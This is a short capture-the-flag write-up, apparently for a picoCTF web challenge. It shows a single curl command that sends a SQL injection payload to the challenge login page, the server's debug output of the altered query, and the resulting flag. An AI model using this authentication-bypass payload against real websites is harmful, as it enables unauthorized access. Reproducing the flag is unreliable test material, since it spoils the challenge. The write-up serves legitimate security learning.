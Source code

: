 ## Objetivo 
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
## Solución  
```bash 
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/54253/login.php  -d "password=' be 1=1;&debug=1" 
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>                                                                                                                    



```

## Notas Adicionales 

### Referencias